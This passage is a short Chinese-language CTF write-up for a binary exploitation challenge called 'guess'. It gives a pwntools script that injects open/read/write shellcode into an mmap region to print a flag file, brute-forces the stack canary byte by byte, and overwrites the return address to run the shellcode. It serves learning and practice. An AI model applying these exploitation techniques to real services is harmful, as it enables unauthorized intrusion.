 并且函数里面还有一个溢出函数，于是我们可以通过其检测爆破的canary

因为是循环，所以我们就可以再次输入read函数的ret的地址为mmap中open的地址

![[Pasted image 20240923214027.png]]

---

总体思路：一般是先放进去后门，然后再跳转到后门的地址去触发我门的后门函数然后引发一系列的反应

---

```
from pwn import*
context.arch='amd64'
context.os='linux'
# context.log_level='debug'
p = process('./guess')
# attach(p)

mmap=0x40404000

oopen=asm(shellcraft.open("./flag"))
readd=asm(shellcraft.read(3,mmap+0x400,0x100))
writee=asm(shellcraft.write(1,mmap+0x400,0x100))
p.sendline(oopen+readd+writee)

p.recvuntil('(0-1000):')

def canary(obj,offset,check):
    canary=b'\x00'
    for j in range(7):
        for i in range(256):
            obj.send(b'a'*offset+canary+bytes([i]))
            res=obj.recvuntil('(0-1000):')
            if check not in res:
                canary+=bytes([i])
                print ("canary: " , canary)
                break
    return canary

canary = canary(p,0x18,b'smashing')

payload=b'a'*0x18
payload+=canary
payload+=b'a'*0x8
payload+=p64(mmap)
p.sendline(payload)
p.interactive()
```

-------------------------------------------------------------------------------------------------------------------

下一题如下
